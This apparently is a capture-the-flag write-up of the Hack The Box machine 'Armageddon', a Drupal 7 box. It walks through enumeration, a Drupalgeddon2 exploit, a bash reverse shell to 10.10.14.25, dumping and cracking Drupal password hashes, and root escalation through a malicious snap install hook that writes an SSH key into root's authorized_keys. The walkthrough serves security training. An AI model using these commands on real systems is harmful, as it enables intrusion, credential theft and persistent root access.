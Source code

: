 # Armageddon

## Overview

Starting off a shell is gained using an exploit in the drupal instance running on the web port. Using the exploit a shell is gained on the box. Using this shell access is gained into the MySQL instance running on the box. From there the users from the drupal installation are dumped. Cracking one of the passwords grants access to the machine through SSH. In order to gain root snapd is used to install a package as root. From there a root shell is gained on the box and the box is complete.

## Enumeration

To begin with nmap is used to scan all the ports on the machine.

```bash
sudo nmap -p- 10.129.106.237 -oA nmap/all-ports
[sudo] password for tc: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 16:58 EDT
Nmap scan report for 10.129.106.237
Host is up (0.090s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 180.66 seconds
```

There are only 2 different ports that are open on the box port 22 and port 80. In order to get more information another nmap scan is run.

```bash
sudo nmap -p22,80 -sC -sV -oA nmap/info 10.129.106.237
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 17:03 EDT
Nmap scan report for 10.129.106.237
Host is up (0.087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
```

### Port 80

Based on the robots.txt and the title of the page it appears to be a drupal website running on the machine. There is a tool called ```droopescan``` the can enumerate information off a drupal website. Using this tool the version is found to be ```7.56```

```bash
droopescan scan drupal -u http://10.129.106.237/
[+] Plugins found:
    profile http://10.129.106.237/modules/profile/
    php http://10.129.106.237/modules/php/
    image http://10.129.106.237/modules/image/

[+] Themes found:
    seven http://10.129.106.237/themes/seven/
    garland http://10.129.106.237/themes/garland/

[+] Possible version(s):
    7.56

[+] Possible interesting urls found:
    Default changelog file - http://10.129.106.237/CHANGELOG.txt

[+] Scan finished (0:01:58.315916 elapsed)
```

## Exploiting

Searching for this drupal version using searchsploit there are a couple exploits that come up. 

![Searchsploit](attachments/armageddon1.png)

Doing a quick google search turns up this [exploit](https://www.exploit-db.com/exploits/44449) in cases where metasploit is not wanted. Using this exploit we can upload a shell script that executes a reverse shell and run it. All we need to do is use curl to download the script. Then using the exploit which allows for code execution set it as executable and run it. The shell script simply executes a reverse shell by running ```bash shell.sh```.

### shell.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/80 0>&1
```

## Privilege Escalation

To begin with gaining root, a MySQL instance is located and the credentials for it were found in ```settings.php``` from the drupal installation. We can use file redirects to run commands through MySQL.  Here is an example of running a set of commands.  ```mysql -u {redacted} --password={redacted} < c.sql > out 2>&1```. This format to run commands was found [here](https://serverfault.com/questions/356567/mysql-not-to-print-selects-output-to-terminal). 

Here is an example of one of the command files.

```sql
use drupal;  
show tables;
```

Here is the file that dumped the users and their password hashes from the SQL database.

```sql
use drupal;  
select \* from users
```

Once we have the hases from the users table we can use john to crack the password. 

```bash
tc@ubuntu:/opt/john$ ./john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ~/htb/Armageddon/hash   
Using default input encoding: UTF-8  
Loaded 1 password hash (Drupal7, $S$ \[SHA512 256/256 AVX2 4x\])  
Cost 1 (iteration count) is 32768 for all loaded hashes  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
{redacted}           (?)  
1g 0:00:00:00 DONE (2021-04-01 21:25) 1.265g/s 293.6p/s 293.6c/s 293.6C/s tiffany..harley  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed
```

## User

Using the cracked password we can log into the compter with SSH. Once we are logged into the computer we find ourselves as the user with access to the user.txt file. From there running ```sudo -l``` we notice that we can install a package using snap as root.

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

In order to get root we need to create a new snap package that will give us access to the root user. 

I found a couple of different links that all helped in figuring out how to escalate privileges. [Here](https://www.exploit-db.com/exploits/46361) is an old exploit that pointed me to the hooks in a snap installation. This [link](https://snapcraft.io/docs/supported-snap-hooks) shows a list of all supported hooks in a snap package. There are 2 primary hooks that are of interest to us. The first is the ```install``` hook and the other is ```configure``` hook. Following along with the second link a snap package was setup and an install hook was used to write a ssh key for the root user. 

This picture shows where I put the install hook files. I am still not sure exactly which file was in the correct location but this file structure worked.

![File List](attachments/armageddon2.png)

The script that was used to give a root shell saved a SSH public key to the root's ```authorized_keys``` file. Here is a copy of the script that added my SSH public key.

```bash
#!/bin/bash

mkdir -p /root/.ssh/
echo "{Key redacted}" >> /root/.ssh/authorized_keys
chmod 644 /root/.ssh/authorized_keys
touch /dev/shm/made
```

To install snapcraft there is a yaml file that needs to be edited as well. Listing the snaps that were on the system showed that there was only ```base: core```. Therefore I had to make sure that the base my app was using matched what was already installed.

Here is a full copy of my snapcraft.yaml file.

```bash
name: hello # you probably want to 'snapcraft register <name>'
base: core # the base snap is the execution environment for this snap
version: '0.1' # just for humans, typically '1.2+git' or '1.3.2'
summary: Single-line elevator pitch for your amazing snap # 79 char long summary
description: |
  This is my-snap's description. You have a paragraph or two to tell the
  most important story about your snap. Keep it under 100 words though,
  we live in tweetspace and your description wants to look good in the snap
  store.

grade: devel # must be 'stable' to release into candidate/stable channels
confinement: devmode # use 'strict' once you have the right plugs and slots

parts:
  gnu-hello:
    source: http://10.10.14.25/hello-2.10.tar.gz
    plugin: autotools
```

This was another [link](https://ubuntu.com/tutorials/create-your-first-snap#3-building-a-snap-is-easy) that helped me understand snap packages. 

In order to build the snap package you can use a tool called ```snapcraft```. In my case to build the snap package I had to make sure snapcraft used ```lxd```. The command to build the package is ```snapcraft --use-lxd``` which is run in the folder with the snapcraft.yaml file. 

With the package all setup and uploaded to the victim machine all we need to go is install the package.

```bash
sudo /usr/bin/snap install --devmode --dangerous /dev/shm/hello_0.1_amd64.snap
```

Once the package is installed we can login to the root user with our ssh key.
